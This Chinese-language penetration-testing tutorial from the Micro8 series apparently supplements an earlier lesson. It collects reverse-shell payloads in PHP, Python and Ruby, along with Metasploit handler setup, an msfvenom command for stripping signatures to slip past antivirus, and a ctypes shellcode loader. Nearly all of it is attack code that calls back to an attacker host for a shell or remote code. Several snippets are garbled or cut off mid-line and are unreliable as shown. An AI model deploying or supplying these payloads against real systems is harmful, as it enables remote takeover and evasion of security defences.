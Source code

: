 ```yaml
---
title: 14、基于第十课补充payload1
date: 2019-09-21 19:04:07
comments: true
categories: 
 - Micro8系列
---
```



# 基于第十课补充 Payload 1

在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 PHP，python，ruby。

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、php-payload
```code
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```php
<?
php error_reporting(0); $ip = 'x.x.x.x'; $port = 53; if (($f = 'stream_socket_client') && is_callable($f)) {
{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_
strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s;
$GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('s
>
```
![](../do/media/c62949c5cacf6d6a5605200311aa5b9a.jpg)

```php
<?php
$sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
![](../do/media/107730c867318d074cc21b9b490d8e8d.jpg)

### 2、python-payload
```code
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```python
import socket,struct,time
for x in range(10):
    try:
        s=socket.socket(2,socket.SOCK_STREAM)
        s.connect(('x.x.x.x',xx))
        break
    except:
        time.sleep(5) l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
    d+=s.recv(l-len(d))
exec(d,{'s':s})
```  
![](../do/media/56fa0d76a0ef5b598d14f8a67de449b7.jpg)

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",xx));
i"]);
```  
![](../do/media/268f5cbb31121e9d7f37909587296e7a.jpg)

```python
import socket import subprocess
s=socket.socket()
s.connect(("xx.xx.xx.xx",xx))
while 1:
  p = subprocess.Popen(s.recv(1024),
                      shell=True,
                      stdout=subprocess.PIPE,
                      stderr=subprocess.PIPE,
                      stdin=subprocess.send(p.stdout.read() + p.stderr.read()
                      )
```
![](../do/media/710a81ff2c29a516aa878760e1fbd110.jpg)

删除特征：
```code
root@John:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=88 -f c | tr -d '"' | tr -d '\n'
```
![](../do/media/34aeea621a28e0377b370eda4a63aaa2.jpg)

```python
from ctypes import *

reverse_shell = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72
micropoorshell = create_string_buffer(reverse_shell, len(reverse_shell))
shellcode = cast(micropoorshell, CFUNCTYPE(c_void_p))
shellcode()
```

### 2、ruby-payload
```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx", x);$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);$stdi
(IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil}
```
![](../do/media/5253458a976fd4e0212059638751245b.jpg)

```ruby
require 'socket';f=TCPSocket.open("xx.xx.xx.xx",xx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
```
![](../do/media/b9032b829c6a977288c32948088801b6.jpg)

```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end  
```
![](../do/media/cdb7a522f8eb1facc72265a923ef173e.jpg)

```ruby
c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print
io.read}end
```
![](../do/media/9246e2313d4cbcb3c4dacced7c25e0c1.jpg)

<p align="right">--By  Micropoor </p>
